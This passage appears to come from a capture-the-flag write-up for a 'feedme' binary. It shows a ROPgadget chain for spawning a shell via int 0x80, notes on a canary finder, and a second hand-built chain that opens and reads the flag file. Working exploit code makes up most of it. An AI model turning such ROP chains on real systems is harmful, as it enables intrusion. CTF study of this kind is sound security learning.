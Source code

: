 ```bash
	p += pack('<I', 0x08054a10) # xor eax, eax ; ret
	p += pack('<I', 0x0809a7ed) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481c9) # pop ebx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x0806f371) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x080ea060) # padding without overwrite ebx
	p += pack('<I', 0x0806f34a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054a10) # xor eax, eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x080497fe) # inc eax ; ret
	p += pack('<I', 0x08049761) # int 0x80
```

Wow. ROPgadget is amazing.

Looking at the chain it found, that's when it hit me: ASLR is disabled, the
.data is always in the same spot. I could simply have written my /bin//sh
there. I'm an idiot that just wasted a lot of time.

Ok, cool, so I add that payload to my canary-finder and let her rip on localhost.

Success!  Awesome, let's try for real now.

Failed. Oh no :( I guess the remote server doesn't have /bin/sh in the chroot.

[Edit: Looking at the docker image for feedme released after the CTF, I notice
that /bin/sh *is* there. I'm not sure why the exploit didn't work; I had some
reliability issue early on with my canary finder, maybe the exploit was fine
but the finder messed up?]

Time to find an alternate way to grab the flag.

The flag is typically in a file called "flag" in the $CWD of the binary, so if
I can open("flag"), read() it and write() to stdout, I should be able to get it.

Eventually, I managed to write this:

```python
p += pack('<I', 0x0806f34a) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080bb496) # pop eax ; ret
p += 'flag'
p += pack('<I', 0x0809a7ed) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806f34a) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080bb496) # pop eax ; ret
p += pack('<I', 0x00000000) # trailing NUL

int0x80   = 0x0806fa20
sys_open  = 0x0806d80a
sys_read  = 0x0806d87a
sys_write = 0x0806d8ea

p += pack('<I', 0x0806f371) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x00000000) # open() arg 2: flags (O_RDONLY)
p += pack('<I', 0x080ea060) # open() arg 1: filename ptr ("flag")
p += pack('<I', 0x0806f34a) # pop edx ; ret
```
